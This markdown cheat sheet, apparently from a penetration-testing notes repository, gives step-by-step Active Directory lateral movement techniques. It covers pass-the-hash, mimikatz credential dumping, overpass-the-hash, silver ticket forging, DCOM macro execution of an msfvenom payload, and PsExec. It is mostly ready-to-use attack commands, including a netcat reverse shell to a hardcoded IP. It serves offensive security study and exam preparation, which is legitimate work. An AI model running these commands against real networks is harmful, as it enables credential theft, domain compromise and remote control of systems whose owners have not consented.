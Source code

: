 # Lateral Movement

>Since we have located high-valuable targets logged on some workstations/servers and we have obtained password hashes and tickets from current machine, we can move laterally to try compromise these high value targets that could lead to full AD compromise.

## Pass the Hash

> Allows us to authenticate to a remote system or service using the NTLM hash of a user (will not work for Kerberos authentication).

 ```bash
#From our kali machine:
pth-winexe -U $USER%$NTLMHASH //$IPADDRESS cmd
#Change $IPADDRESS to the remote machine.
 ```

**Note:** This method only works for AD domain accounts and the built-in local administrator account.

_____

## SMBMap with hashes

If we get a hash we can try to use smbmap in order to test if the user have write access to the C vol or C$, then we can crack that hash to and use PsExec to get a shell.

```bash
smbmap -u $USERNAME -p $HASH(xxx:xxx) -H $IP_ADDRESS

```
_____

## Overpass the Hash

Thanks to this method we can abuse the NTLM hash of a user to gain a full kerberos TGT or TGS which grants us access to another machine or service as that user.

Imagine we have compromised a workstation and there are cached NTLM hashes of other users. The first step is to grab the NTLM hash of a user using mimikatz:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

Now we have to use the following mimikatz tool open a powershell prompt as the context of this user:

```bash
sekurlsa::pth /user:$USERNAME /domain:$DOMAINNAME /ntlm:$NTLMHASH /run:PowerShell.exe
```

Next, if there are no Kerberos tickets cached, we have to generate one:

```bash
#List current tickets:
klist

#Generate a TGT by authenticating somewhere:
net use \\$DCHOSTNAME
```

Now we have a full Kerberos TGT which allows us to use any tools that rely on Kerberos authentication:. For example, login as this user on the domain controller:

```bash
.\PsExec \\$DCHOSTNAME cmd.exe
```

_____

## Pass The Ticket

The overpass the hash used before provides us with a TGT ticket which is only usable on the machine it was created for. Pass The Ticket attack takes advantage of the TGS which may be exported and re-injected elsewhere used to authenticate to a specific service.

With the SPN service account password or its associated NTLM hash we can forge our own TGS to access the target resource with any permission we desire (silver ticket).

We make use of mimikatz kerberos::golden command to create this ticket.

**Step 1:** Find the SID of the domain:

```bash
whoami /user
#SID is all the output minus the last part (last 4 numbers)
```

**Step 2:** Craft the ticket:

```bash
kerberos::golden /user:$DOMAINUSER /domain:$DOMAIN /sid:$SID /target:$SPNNAME /service:$SERVICE /rc4:$NTLMHASH /ptt

#user: Domain user we currently are, not the service user.
#service: First part of serviceprincipalname (until "\").
#ppt: Injects directly the ticket in memory. Remove to save the ticket on disk.
#rc4: NTLM hash of the password.
```

This service ticket will have permissions as built-in local administrator user (500) and Domain Admins (plus other high privileged) AD group. Once loaded into memory, we can interact with the service and gain access to any information, including command execution.

_____

## DCOM

We can use DCOM (like Macros from Excel) to perform a lateral movement technique. This method will allow us to execute a Visual Basic Macro remotely. Note: Office shoud lbe installed on the remote machine.

**Step1:** Create a document and paste the following macro:

```bash
#Create the payload with msfvenom with format (hta-psh)
Sub MyMacro()
Dim Str As String

Str = Str + "$PAYLOAD"
Str = Str + "$PAYLOAD"

Shell (Str)

End Sub
```

**Step 2:** Execute the following code on a PS window in order yo upload the file to the remote machine and execute the macro.

```bash
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$REMOTEIPADDRESS"))
$LocalPath = "$LOCALPATH\$FILENAME.xls"
$RemotePath = "\\$REMOTEIPADDRESS\c$\$FILENAME.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\$REMOTEIPADDRESS\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\$FILENAME.xls")
$com.Run("mymacro")

#Note: filename must be .xls
```

_____

## PsExec

The credentials supplied to PsExec must have elevated privileges on the targeted client machine. If we can not pass the hash to PsExec, use the metasploit module.

#### Using PsExec.exe (local machine)

Connect to a remote machine using known credentials or hashes:

```bash
#32 bits:
PsExec.exe -u $USERNAME -p $PASSWORD C:\temp\nc.exe 192.168.119.139 1233 -e C:\windows\system32\cmd.exe


#64 bits:
PsExec64.exe -u $USERNAME -p $PASSWORD C:\temp\nc.exe 192.168.119.139 1233 -e C:\windows\system32\cmd.exe
```

#### Using psexec.py (kali)

```bash
python psexec.py $USERNAME@$IP_ADDRESS
```
